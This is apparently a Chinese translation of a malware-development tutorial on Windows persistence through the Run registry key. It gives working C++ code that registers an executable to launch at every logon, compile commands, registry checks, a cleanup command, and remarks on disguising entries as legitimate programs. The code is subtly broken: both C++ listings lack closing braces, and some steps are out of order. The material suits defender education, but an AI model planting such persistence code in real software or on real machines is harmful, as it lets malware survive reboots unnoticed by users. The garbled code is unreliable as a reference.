\newpage
\subsection{恶意软件开发：持久化（第 1 部分）——注册表运行项（C++ 示例）}

{width="80%"}

这一节开启了一章关于 Windows 恶意软件持久化技术与技巧的内容。

今天我将写关于自我研究「经典」持久化技巧的结果：启动文件夹注册表项。

### 运行项（run keys）

在注册表的「运行项」中添加一个条目，会导致所引用的应用在用户登录时被执行。

这些应用将在用户的上下文中执行，并拥有该账户关联的权限级别。

Windows 系统默认会创建以下运行项：

{width="80%"}

请注意，这还提示了另一个反 VM（VirtualBox）的技巧。

{width="80%"}

威胁行为者可以利用这些配置位置执行恶意软件，以在系统重启后保持持久化。

{width="80%"}

威胁行为者也可能使用伪装，让注册表条目看起来像是与合法程序关联的。

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`

{width="80%"}

### 实战示例

我们来看一个实战示例。

假设我们有一个「恶意软件」`hack.cpp`：

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

我们来编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

并把它保存到文件夹 `Z:\2022-04-20-malware-pers-1\`：

{width="80%"}

然后，我们来创建一个脚本 `pers.cpp`，它会在我们登录 Windows 时创建注册表项来执行我们的程序 `hack.exe`：

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
  (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }
  return 0;

```

注册表项也可以从终端添加到运行项以实现持久化，但因为我喜欢写代码，所以我想展示如何用几行代码做到这一点。

### 演示

我们来编译我们的 `pers.cpp` 脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后，首先在受害机器上检查注册表项：

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}

然后，运行我们的 `pers.exe` 脚本并再次检查：

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}

我们可以看到，新项如预期那样被添加了。

{width="80%"}

{width="80%"}

{width="80%"}

现在，我们来检查实际效果。注销并再次登录：

Pwn！一切都完美工作了 :)

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}

实验结束后，删除这些项：

这个技巧在 Windows 11 上同样有效：

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

### 结论

